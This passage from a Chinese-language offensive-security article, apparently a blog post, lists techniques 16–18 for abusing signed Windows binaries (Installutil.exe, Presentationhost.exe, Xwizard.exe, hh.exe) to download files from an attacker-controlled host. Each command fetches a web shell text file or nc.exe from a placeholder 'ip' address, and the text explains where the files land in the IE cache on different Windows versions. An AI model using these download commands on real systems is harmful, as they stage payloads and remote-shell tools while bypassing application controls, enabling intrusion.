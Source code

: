   
  
  
这个是.NET环境中的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSr9fdwvLXj9NsQczxbVu4ckOW8Rf0roD4e8L0Q9ZdFQVshiblY39LgONQ/640?wx_fmt=png&from=appmsg "")  
  
Installutil.exe https://ip/imashell.txt  
  
同样落地在INetCache\IE缓存文件夹，win7则落地在Microsoft\Windows\Temporary Internet Files缓存文件夹  
  
  
  
  
  
16. 利用Prese**n**tationhost.exe落地文件（出网）  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSr4BJDIXX4VugqDXuGejKbiaSibibiaJTzbT1szHZFFQ3snQicYd39LTQoQqw/640?wx_fmt=png&from=appmsg "")  
  
Presentationhost.exe https://ip/imashell.txt  
  
同样落地在INetCache\IE缓存文件夹，win7则落地在Microsoft\Windows\Temporary Internet Files缓存文件夹  
  
  
  
  
**17. 利用Xwizard.exe落地文件（出网）**  
  
  
  
  
这个稍微有点不一样  
  
xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /z https://ip/imashell.txt  
  
同样落地在INetCache\IE缓存文件夹，win7则落地在Microsoft\Windows\Temporary Internet Files缓存文件夹，但这个我本地没有复现成功  
  
  
  
  
**18.利用Hh.exe落地文件（出网）**  
  
  
这个我和网上的利用思路有点点不一样，网上说用这玩意可以执行ps1，也可以落地exe，但是我本地尝试用它落地exe的时候会这样：  
  
hh.exe http://ip/nc.exe  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSreIPnibXzt6BXvENriaVPnCfTffYg9IkUcL50US0brXs4zibmpaibypL4qQ/640?wx_fmt=png&from=appmsg "")  
  
接下来有意思的来了，先使用上述命令尝试下载exe的，**然后这里无论点击运行、保存还是取消都没关系。**  
  
接着我们运行hh.exe http://ip/imashell.txt  
  
会弹出一个这个：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSr2qibeLcSz1stx6Qtuia3LWSea3MWoKgY2UJ3XDPW3icYUia1Ibtq2yEQGQ/640?wx_fmt=png&from=appmsg "")  
  
然后这时候看缓存文件夹，文件已经落地到缓存文件夹了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrUkibzWUqJbOY6A5BHRp3pamLbW05AUDAHVwbgJZibj4UotEQknibNkq6Q/640?wx_fmt=png&from=appmsg "")  
  
这个思路挺好玩，误打误撞发现的  
  
  
  
